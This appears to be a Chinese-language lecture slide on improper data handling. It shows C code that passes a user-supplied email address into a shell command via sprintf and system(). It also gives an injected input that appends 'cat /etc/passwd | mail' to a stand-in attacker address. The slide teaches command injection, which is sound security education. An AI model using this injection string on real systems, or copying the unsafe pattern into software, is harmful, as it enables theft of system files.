

# 6、不恰当的数据处理
应用程序输入一个用户的email 地址，并把地址写入缓冲区 [Viega 03]
sprintf(buffer,
   "/bin/mail %s < /tmp/email",
   addr
);

使用system()调用执行缓冲区中的数据。
当用户输入下列格式的一个email地址的时候，就会出现风险:

bogus@addr.com; cat /etc/passwd  | mail some@badguy.net

23